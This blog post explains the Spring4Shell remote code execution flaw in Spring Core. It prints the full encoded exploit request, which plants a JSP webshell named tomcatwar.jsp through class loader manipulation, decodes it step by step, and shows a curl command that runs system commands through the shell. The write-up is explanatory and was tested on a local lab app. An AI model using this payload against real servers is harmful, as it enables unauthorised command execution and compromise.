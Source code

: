Learning about Spring4Shell exploit
===================================

I’m pretty sure you might have heard about the infamous “Spring4Shell” exploit by now, so rather than boring you with the details about how it was discovered or how to exploit it. I’d like to explain how and why it works.

There are two parts to this:

1.  Spring4Shell: RCE in Spring Core ≤ 5.3.17
2.  CVE-2022–22964: RCE in Spring Cloud Function (≤ 3.1.6 and ≤ 3.2.2)

In this blog, I’m going to write about the vulnerability in Spring Core.

Rapid7 team have recreated and explained the entire thing really well.

```
package net.javaguides.springmvc.helloworld.controller;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.InitBinder;
import org.springframework.web.bind.annotation.RequestMapping;  import net.javaguides.springmvc.helloworld.model.HelloWorld;
/\*\*
  \*
  @author Ramesh Fadatare
  \*/
@Controller
public class HelloWorldController {
    @RequestMapping("/rapid7")
    public void vulnerable(HelloWorld model) {
    }
}
```

So, what’s happening here is, the `HelloWorldController` handles the HTTP requests to “http://target.com/appname/rapid7", the function `vulnerable` will handle those requests and the values passed along with them.

Also, this function has a POJO (Plain Old Java Object) parameter.

Here the vulnerability lies within the `@RequestMapping` annotation, which enables a “Class Loader Manipulation” attack. Let’s say we have something like this:

```
public class Counter {
    private long count;
    public long getCount() {
        return count;
    }
    public void setCount() {
        this.count = count;
    }
}@Controller
public class HelloController {
    @PostMapping("/count")
    public String getCount(@ModelAttribute Counter count, Model model) {
        return "Here is the count";
    }
}
```

Now, making a request to will give us the response “Here is the count”. That part is fine, it works really well, the problem arises when something other than just some random text is given as the request parameter, like:

```
class.module.classLoader.resources.context.parent.pipeline .first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(% 22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRunt ime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int% 20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20 while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7 D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context .parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources .context.parent.pipeline.first.directory=webapps/ROOT&class.module.cl assLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&cl ass.module.classLoader.resources.context.parent.pipeline.first.fileDat eFormat=
```

Okay, that doesn’t make much sense. Decoding and breaking it down…

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i
if("j".equals(request.getParameter("pwd"))){
  java.io.InputStream in = %{c1}i.getRuntime()
      .exec(request.getParameter("cmd"))
      .getInputStream();
  int a = -1;
  byte\[\] b = new byte\[2048\];
  while((a=in.read(b))3D-1){
     out.println(new String(b));
  } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

First, it’s probably creating a basic JSP webshell payload

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i
if("j".equals(request.getParameter("pwd"))){
  java.io.InputStream in = %{c1}i.getRuntime()
      .exec(request.getParameter("cmd"))
      .getInputStream();
  int a = -1;
  byte\[\] b = new byte\[2048\];
  while((a=in.read(b))3D-1){
     out.println(new String(b));
  } } %{suffix}i
```

Next, specifying the extension of the file it’s going to store the payload into

```
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
```

After that, it specifies the directory where the webshell can be kept

```
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
```

Giving the webshell a name

```
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
```

About this last one, I’m not sure exactly what it’s doing, but just by looking at it, it seems like it determines the “File Date Format”, maybe ?

```
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

So, that `curl` request is essentially is a collection of several statements joined together so that it is executed in one go.

After the payload file tomcatwar.jsp has been created in the webapp/ROOT directory we can execute commands:

```
curl http://localhost:8000/tomcatwar.jsp?pwd=j&cmd=whoami
```

This will give you the contents of `tomcatwar.jsp` file along with the result of `whoami`

I used this repo to host a vulnerable Spring Framework Application locally and test this vulenrability.

[https://github.com/jbaines-r7/spring4shell\_vulnapp](https://github.com/jbaines-r7/spring4shell_vulnapp)

References:

[

Spring4Shell: Zero-Day Vulnerability in Spring Framework | Rapid7 Blog
----------------------------------------------------------------------

### If you are like many in the cybersecurity industry, any mention of a zero-day in an open-source software (OSS) library…

www.rapid7.com

](https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/)[

Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring | LunaSec
--------------------------------------------------------------------------------------------------

### Logo courtesy of Daniel Christensen. On March 29th, 2022, two RCE vulnerabilities were being discussed on the internet…

www.lunasec.io

](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)
